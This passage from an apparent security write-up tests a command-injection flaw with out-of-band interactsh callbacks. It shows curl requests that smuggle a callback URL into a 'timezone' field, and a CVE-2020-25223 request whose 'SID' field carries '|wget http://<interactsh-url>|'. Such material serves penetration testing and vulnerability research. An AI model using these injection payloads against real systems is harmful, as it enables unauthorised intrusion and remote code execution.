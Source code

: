 ```bash
User-Agent: TelegramBot (like TwitterBot)



-------------
HTTP Response
-------------

HTTP/1.1 200 OK
Connection: close
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Content-Type, Authorization
Access-Control-Allow-Origin: *
Content-Type: text/html; charset=utf-8
Server: oast.site
X-Interactsh-Version: 1.1.8

<html><head></head><body>5semijdci14wj0ok6vt78sbnvecf0f6pc</body></html>
```

Ok, we see `nuclei` was not cheating. But what if we remove `curl` from the payload at all and leave only url:

```bash
curl -v -X POST http://x.y.z/upload \
-H "Host: x.y.z" \
-H "User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; ar; rv:1.9.2) Gecko/20100115 Firefox/3.6" \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Accept-Encoding: gzip" \
--data-urlencode "logtype=XML" \
--data-urlencode "timezone=1;http://cp6f4esevnbs8rv5qpe05oaynu6ngdjey.oast.live;" 
```

*Note:* For every test with interactsh url we use a new url; the previous once are not reusable, probably the software we try to get into bans them.

Wow! We got the response! So, the software we try to upload our payout ignores the command but accepts url and makes call to it. As noted above, it does it only once, then a new url is needed.
Of course, we could not upload any payload as we cannot execute any command on the target.

## PS

Very similar vulnerability is CVE-2020-25223. The same mechanism is used:

```bash
curl -X POST https://targetserver.com/var \
-H "Host: targetserver.com" \
-H "Accept: text/javascript, text/html, application/xml, text/xml, */*" \
-H "Accept-Language: en-US,en;q=0.5" \
-H "Accept-Encoding: gzip, deflate" \
-H "X-Requested-With: XMLHttpRequest" \
-H "X-Prototype-Version: 1.5.1.1" \
-H "Content-Type: application/json; charset=UTF-8" \
-H "Origin: https://targetserver.com" \
-H "Connection: close" \
-H "Referer: https://targetserver.com" \
-H "Sec-Fetch-Dest: empty" \
-H "Sec-Fetch-Mode: cors" \
-H "Sec-Fetch-Site: same-origin" \
--data '{"objs": [{"FID": "init"}], "SID": "|wget http://<interactsh-url>|", "browser": "gecko_linux", "backend_version": -1, "loc": "", "_cookie": null, "wdebug": 0, "RID": "1629210675639_0.5000855117488202", "current_uuid": "", "ipv6": true}'
```